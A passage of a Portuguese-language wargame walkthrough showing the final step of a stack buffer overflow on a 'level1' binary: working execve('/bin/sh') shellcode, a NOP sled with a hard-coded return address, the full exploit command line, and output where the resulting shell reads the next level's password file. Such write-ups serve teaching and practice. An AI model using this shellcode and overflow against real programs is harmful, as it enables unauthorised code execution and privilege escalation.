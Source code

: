 Certo. Já sabemos quantos bytes são necessários para corromper o endereço de retorno da função e agora sabemos para onde queremos que ele aponte. O último passo é colocar o shellcode na memória e pôr nosso programa para executa-lo.

O shellcode que escolhi fica com a tarefa de executar <em>/bin/sh</em>:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\xb0\x0b\xcd\x80
```

O google é seu amigo. Caso queira entender que porra é essa aí em cima, não será difícil encontrar informações. Não seja um kiddie que só executa as coisas que um tutorial manda  :p

Então o código em python que explora level1 evoluiu disso aqui:

```
python -c 'print B*1036 + R*4'
```

Para isso:

```
python -c 'print \x90*1015 + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\xb0\x0b\xcd\x80 + \x30\xf8\xff\xbf'
```

As mudanças foram: substitui os B's por \x90, que formarão o NOP sled. Subtrai 21 dos 1036, pois 21 é o tamanho em bytes do meu shellcode que segue logo depois dos NOPs. E adicionei o endereço que quero que EIP aponte: 0xbffff830 que, por causa da little endian (google it), precisa ser inserido com os bytes em ordem invertida (bf ff f8 30 vira 30 f8 ff bf).

Então é hora da verdade. Sai do gdb e executei a seguinte linha de comando:

```
./level1 $(python -c 'print \x90*1015 + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\xb0\x0b\xcd\x80 + \x30\xf8\xff\xbf')
```

Instantaneamente, vi meu prompt mudar de level1@rzt-bin01 para um módico $.
Foi só usar o comando <em>whoami</em> para ter certeza.

```
$ whoami
level2
$ cat /home/level2/.pass
byBicmVubm9yZHMgZWggbyBtZWxob3I=
```

Pwned ;D
